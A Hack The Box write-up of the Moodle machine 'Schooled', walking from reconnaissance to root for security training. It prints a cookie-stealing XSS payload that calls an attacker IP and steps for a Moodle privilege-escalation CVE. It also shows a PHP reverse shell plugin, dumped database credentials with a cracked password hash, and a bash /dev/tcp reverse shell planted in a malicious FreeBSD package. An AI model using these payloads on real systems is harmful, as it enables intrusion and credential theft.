# Box 




https://www.hackthebox.eu/home/machines/profile/335

# Profile

  

https://www.hackthebox.eu/home/users/profile/296177

# Table of contents

* [Reconnaissance](#reconnaissance)
* [Exploitation](#exploitation)
* [Post-Exploitation](#post-exploitation)
  + [User](#user)
  + [Root](#root)

# Contents 

## Reconnaissance

Let's start with nmap :

```bash
nmap -sV -sC -Pn --top-ports 1000 -oN scan_10.10.10.234 10.10.10.234
```



Let's take a look on the website : 




I used `ffuf` to do discovery listing and found nothing.

So I tried to do vhost discovery with gobuster.

```bash
gobuster vhost -u schooled.htb -w /usr/share/seclists/Discovery/Web-Content/big.txt
```




We found a successful virtual host `moodle.schooled.htb`.

Here is the new website : 




On this website we can register to get acess to the differents courses. 

There is only one course where we can enroll so I did it. There is a message about the moodle net profile.



If we go at the bottom of the page we can find a link where we can find the Moodle version : 



So we know we have the version 3.9.



In the history of the logged user we can see that Manuel Phillips was here.


That probably means he was checking our MoodleNet profile. 

## Exploitation

I found a stored XSS vulnerability https://moodle.org/mod/forum/discuss.php?d=410839

You have to edit your profile, add in the `Module Net Profile` : 

```html
<script>document.location='http://10.10.14.67:4444/?c='+document.cookie</script>
```

We will get the cookie of Manuel Phillips now.

That was sucessful ! 



Replace your current cookie with this one and we are Manuel Phillips.




After a while I found a github with a recent exploit where we can become manager and then use the administrator administration panel.

The Github : https://github.com/HoangKien1020/CVE-2020-14321

The CVE on the official website :  https://moodle.org/mod/forum/discuss.php?d=407393#p1644268

Following the video on the github we can use burp to become a manager.

First you have to go to this page http://moodle.schooled.htb/moodle/user/index.php?id=5

then "Enrol users". Choose Lianne Carter as an example, intercept with burp and modify two values.

```
userlist%5B%5D=4&roletoassign=5
userlist%5B%5D=<your_id>&roletoassign=1
```






You should get a success true : 



After that, we have to find a user who is a manager. On the first website we had 4 staff profiles. 


Lianne seems to be a manager, so let's try her first. Enroll her in the course.

We can "log in as" Lianne Carter now.





And we have administration access. Let's use the `rce plugin` in the webiste to have our reverse shell.

Let's edit here http://moodle.schooled.htb/moodle/admin/roles/define.php the permissions to allow everything. 




Upload the rce folder in the plugin.



Now you can trigger your rce in http://moodle.schooled.htb/moodle/blocks/rce/lang/en/block_rce.php?cmd=id




Well even if the previous rce could work I created my own zip with a reverse shell in php that you can find here https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php. 



And we are in.



## Post-Exploitation

### User

Let's start by an enumeration in the moodle folder. There is a config.php file in the `/usr/local/www/apache24/data/moodle` folder.

We can find creds for mysql.



| dbuser | dbpass             | dbname |
| ------ | ------------------ | ------ |
| moodle | PlaybookMaster2020 | moodle |

Now that we have db credentials, we can start using mysql to get the tables and probably the hashes.



When searching for moodle user table I found a table called `mdl_user`

using `select * from mdl_user;` I found the hash of jamie : 



| User  | Hash                                                         |
| ----- | ------------------------------------------------------------ |
| jamie | $2y$10$3D/gznFHdpV6PXt1cLPhX.ViTgs87DCE5KqphQhGYR5GFbcl4qTiW |

Let's run hashcat :

```
hashcat -a 0 -m 3200 hash.txt rockyou.txt
```

We have a match ! 

| Hash                                                         | Hash(Cracked) |
| ------------------------------------------------------------ | ------------- |
| $2y$10$3D/gznFHdpV6PXt1cLPhX.ViTgs87DCE5KqphQhGYR5GFbcl4qTiW:!QAZ2wsx | !QAZ2wsx      |

Let's try to log in as jamie now.



### Root

Let's do the classical `sudo -l` :



We can use pkg install which probably means that we need to install a custom package.

Using `pkg help install` you can see there is a function to disable scripts.



Using a proper tutorial found here http://lastsummer.de/creating-custom-packages-on-freebsd/ we can create our custom payload to get a reverse shell. Juste copy/paste the code found on the website and modify a line in `+POST_INSTALL` like this : 

```bash
bash -c 'exec bash -i &>/dev/tcp/10.10.14.16/1234 <&1'
```

Execute the script and you should get a package : 


We juste need to install it by running `sudo /usr/sbin/pkg install  -f --no-repo-update mypackage-1.0_5.txz `



You should get your root shell.



Rooted.
